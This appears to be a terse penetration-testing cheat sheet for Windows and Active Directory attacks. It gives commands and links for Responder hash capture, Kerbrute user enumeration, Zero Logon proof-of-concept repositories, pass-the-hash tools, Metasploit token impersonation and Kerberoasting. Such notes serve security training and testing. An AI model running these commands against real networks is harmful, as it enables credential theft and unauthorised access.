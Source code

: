 ## SCF attack: malicious file that trigger multicats request for another computers. Responder needed.
**Attack guide**: [https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/].
## LLMNR & NBT-NS POISONING AND CREDENTIAL ACCESS USING RESPONDER
**Run responder/ NTLMv2 hash grabbing**: responder -I [interface] -wF -v
## CONNECT TO RDP
xfreerdp /u:user /p:password321 /cert:ignore /v:MACHINE_IP
## Zero Logon    
**Testing script https://github.com/SecuraBV/CVE-2020-1472    
**PoC https://github.com/dirkjanm/CVE-2020-1472    
## Windows user enumeration with Kerbrute    
/kerbrute_linux_amd64 userenum --dc [IP] -d [domain name] usernames.txt    
## CVE-2019-6714 BlogEngine.NET    
**https://blog.gdssecurity.com/labs/2019/3/28/remote-code-execution-in-blogenginenet.html**    
## Pass the HASH
**Grab local hashes**: secretdump.py    
psexec.py    
crackmapexec    
wmiexec        
evil-winrm    
## Token Impersonation    
**Delegate**: creating for logging into a machine or RDP.    
**Impersonate**: "non-interactive", such as attachind network drive or a domain logon script.    

**Metasploit: Incognito**    
load_incognito //load module.    
list_tokens -u //list tokens for users.    
impersonate_token domain\\username //exploit.    

## Kerberoasting    
GetUserSPNs.py    

## GPP    
https://blog.rapid7.com/2016/07/27/pentesting-in-the-real-world-group-policy-pwnage/    
